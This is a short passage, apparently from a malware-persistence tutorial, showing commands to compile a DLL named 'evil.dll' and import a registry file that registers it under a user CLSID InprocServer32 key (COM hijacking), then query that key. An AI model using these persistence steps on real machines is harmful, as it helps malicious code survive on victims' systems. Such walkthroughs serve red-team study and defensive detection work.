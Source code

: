 Then, just run:

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![pers](./images/53/2022-05-02_17-04.png){width="80%"}    

Save reg file as `evil.reg`:

![pers](./images/53/2022-05-02_18-22.png){width="80%"}    

And import, then check registry again:

```powershell
reg import \
C:\...\2022-05-02-malware-pers-3\evil.reg /reg:64
reg query \
"HKCU\Software\Classes\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" \
/s
```

![pers](./images/53/2022-05-02_16-43.png){width="80%"}    
